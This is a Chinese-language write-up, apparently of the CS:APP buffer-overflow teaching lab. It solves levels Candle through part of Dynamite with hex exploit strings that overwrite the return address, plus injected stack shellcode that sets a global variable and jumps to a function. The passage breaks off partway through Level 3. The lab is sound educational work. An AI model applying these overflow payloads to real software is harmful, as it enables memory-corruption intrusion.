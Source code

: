 ### 1. Level 0: Candle
+ 题目非常简单，只是要求能够正确执行函数`smoke`即可，我们只需要将`smoke`函数的地址写入`getbuf`的返回地址即可,我们只需要将`08048c18`写入返回地址即可。
![1](https://i.loli.net/2020/11/26/nJHl9QcwD3qMUzT.png)
```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 18 8c 04 08
```
### 2. Level 1: Sparkler
+ 题目非常简单，只是要求能够正确执行函数`fizz`即可，我们只需要将`fizz`函数的地址写入`getbuf`的返回地址即可,我们只需要将`08048c18`写入返回地址即可,与`level1`不一样的是还需要把参数`val`参数传入，并且此时参数的值为`cookie`的值，我们知道参数的偏移地址`offset = (0x28 + 12)`，我们只需要在此偏移处填入`cookie`的值即可。
![2](https://i.loli.net/2020/11/26/3W4eXo6zNFVnSCO.png)
```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 42 8c 04 08 08 d1 08 04 00
```
### 3.Level 2: Firecracker
+ 这个稍微复杂点，只是要求能够正确执行函数`bang`，并且要求`global_value`的值与`cookie`的值相等，这就要求我们不仅返回执行`bang`函数，还需要对`global_value`的值进行更改。此题需要在栈上写入指令，并且执行栈上的指令修改全局变量的值，执行完成后跳转到`bang`函数即可。
+ 我们通过C语言写入汇编代码，然后进行编译翻译成机器指令即可，再将填入到栈中即可，需要执行的指令如下：
```c++
void test(){
    __asm__("mov $0x6830c384, %eax"); // eax = cookie
    __asm__("mov %eax,0x804d100");    // global_value = cookie
    __asm__("push $0x08048c9d");      // set bang return address
    __asm__("ret");    
}
```
![3](https://i.loli.net/2020/11/26/gzNHyfrudtTAWpq.png)
+ 本次即需要两次跳转，第一次跳转到栈上的指令起始地址`0x55682fb8`，设置全局变量；执行完成指令后进行第二次跳转到`bang`函数的入口地址`0x08048c9d`，最后的结果为：
```
b8 84 c3 30 68 a3 00 d1 04 08 68 9d 8c 04 08 c3 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 b8 2f 68 55
```

### 4. Level 3: Dynamite
+ 这个就比较复杂，需要改变`test`函数的执行逻辑，这就要求我们不仅返回执行`bang`函数，还需要对`global_value`的值进行更改，并且保证`test`函数最终能够正常运行。`test`函数原本逻辑如下所示：
```c++
void test()
{
    int val;
    /* Put canary on stack to detect possible corruption */
    volatile int local = uniqueval(); 

    val = getbuf(); 

    /* Check for corrupted stack */
    if (local != uniqueval()) {
		printf("Sabotaged!: the stack has been corrupted\n");
    }
    else if (val == cookie) {
		printf("Boom!: getbuf returned 0x%x\n", val);
		validate(3);
    } else {
        printf("Dud: getbuf returned 0x%x\n", val);
    }
}
```
如果按照正常逻辑，`getbuf`的返回值为`1`,而本题要求`val == cookie`，这就要求返回值为`cookie`，我们通过修改`getbuf`的返回值为`cookie`即可。我们仔细阅读汇编代码如下：
```c++
 8048db9:       e8 36 04 00 00          call   80491f4 <getbuf>
```